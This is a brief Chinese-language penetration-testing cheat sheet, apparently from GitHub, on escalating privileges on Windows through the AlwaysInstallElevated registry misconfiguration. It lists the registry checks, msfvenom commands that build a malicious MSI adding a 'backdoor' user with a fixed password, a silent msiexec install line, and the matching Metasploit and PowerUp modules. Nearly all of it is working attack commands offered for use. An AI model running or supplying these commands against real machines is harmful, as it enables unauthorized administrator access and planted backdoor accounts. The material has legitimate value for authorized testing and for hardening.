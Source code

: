 # 注册表配置错误-AlwaysInstallElevated

**原理：MSI 文件是用于安装应用程序的软件包文件。这些文件用安装它们的用户的权限运行**

**先决条件：检查这些注册表值是否设置为“1””(0x1)“。必须启用两个注册表设置才能使其正常工作，若缺任一则不可用**

```bash
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

Get-ItemProperty HKLM\Software\Policies\Microsoft\Windows\Installer
Get-ItemProperty HKCU\Software\Policies\Microsoft\Windows\Installer
```

**若符合先决条件，则创建一个MSI文件，并安装它**

```bash
msfvenom -p windows/adduser USER=backdoor PASS=backdoor123 -f msi -o evil.msi
msfvenom -p windows/adduser USER=backdoor PASS=backdoor123 -f msi-nouac -o evil.msi
msiexec /quiet /qn /i C:\evil.msi
```

**MSF 模块：**

exploit/windows/local/always_install_elevated

**PowerUp 模块：**

Get-RegAlwaysInstallElevated

Write-UserAddMSI
